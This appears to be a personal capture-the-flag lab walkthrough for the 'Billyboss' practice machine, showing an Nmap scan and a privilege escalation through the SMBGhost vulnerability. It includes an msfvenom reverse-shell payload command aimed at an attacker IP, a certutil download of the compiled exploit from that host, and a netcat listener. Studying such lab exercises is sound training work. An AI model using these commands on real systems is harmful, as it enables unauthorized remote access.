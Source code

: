 
# Host:
```
192.168.227.61
```

# Nmap
```
Nmap scan report for 192.168.227.61

PORT      STATE    SERVICE       REASON          VERSION
21/tcp    open     ftp           syn-ack ttl 125 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open     http          syn-ack ttl 125 Microsoft IIS httpd 10.0
|_http-favicon: Unknown favicon MD5: 8D9ADDAFA993A4318E476ED8EB0C8061
|_http-title: BaGet
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-cors: HEAD GET POST PUT DELETE TRACE OPTIONS CONNECT PATCH
135/tcp   open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open     netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
283/tcp   filtered rescap        no-response
445/tcp   open     microsoft-ds? syn-ack ttl 125
2219/tcp  filtered netiq-ncap    no-response
5040/tcp  open     unknown       syn-ack ttl 125
5968/tcp  filtered mppolicy-v5   no-response
6836/tcp  filtered unknown       no-response
7094/tcp  filtered unknown       no-response
7680/tcp  open     tcpwrapped    syn-ack ttl 125
8081/tcp  open     http          syn-ack ttl 125 Jetty 9.4.18.v20190429
|_http-favicon: Unknown favicon MD5: 9A008BECDE9C5F250EDAD4F00E567721
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Nexus Repository Manager
| http-robots.txt: 2 disallowed entries 
|_/repository/ /service/
|_http-server-header: Nexus/3.21.0-05 (OSS)
8540/tcp  filtered unknown       no-response
10364/tcp filtered unknown       no-response
14843/tcp filtered unknown       no-response
22254/tcp filtered unknown       no-response
29638/tcp filtered unknown       no-response
29673/tcp filtered unknown       no-response
32016/tcp filtered unknown       no-response
40200/tcp filtered unknown       no-response
40224/tcp filtered unknown       no-response
43757/tcp filtered unknown       no-response
46047/tcp filtered unknown       no-response
49664/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49665/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49666/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
49669/tcp open     msrpc         syn-ack ttl 125 Microsoft Windows RPC
51806/tcp filtered unknown       no-response
52119/tcp filtered unknown       no-response
56106/tcp filtered unknown       no-response
59384/tcp filtered unknown       no-response
64130/tcp filtered unknown       no-response

Running (JUST GUESSING): Microsoft Windows XP|2008 (87%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_server_2008
Aggressive OS guesses: Microsoft Windows XP SP3 (87%), Microsoft Windows Server 2008 (85%)
```

Got access to nathan through [[PG Practice/Billyboss/8081]]

Now we can check linpeas:
![](../attachment/b8874674f691d32c3573e2e1b69d2792.png)
We have smbghost vulnerability

So we can use this [Exploit](https://github.com/danigargu/CVE-2020-0796?source=post_page-----a06f1b79b183--------------------------------)
Now opening it in visual studio
![](../attachment/ac33bc5f6c129b966dca387358da407f.png)
There is an exploit.cpp

We can get shellcode:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.245 LPORT=445 -f dll -f csharp
```
![](../attachment/2114dbb51098e4155029e062a87e4e7a.png)

We can now build after replacing the shellcode:![](../attachment/3f15562c7bb230af2785cddde8293735.png)
Now we can build it: 
![](../attachment/4cee9c4671d760d294c967da7cb49b94.png)

Transfer to machine:
```
certutil -urlcache -f http://192.168.45.245/smbghost.exe smbghost.exe
```
```
smbghost.exe
```
![](../attachment/2a7a8c98fd0ca7bff7f952925a8c2ee2.png)
Now running:
```
sudo rlwrap nc -nlvp 445
```
![](../attachment/d106f2a3cae765384d07098b28ef6efe.png)

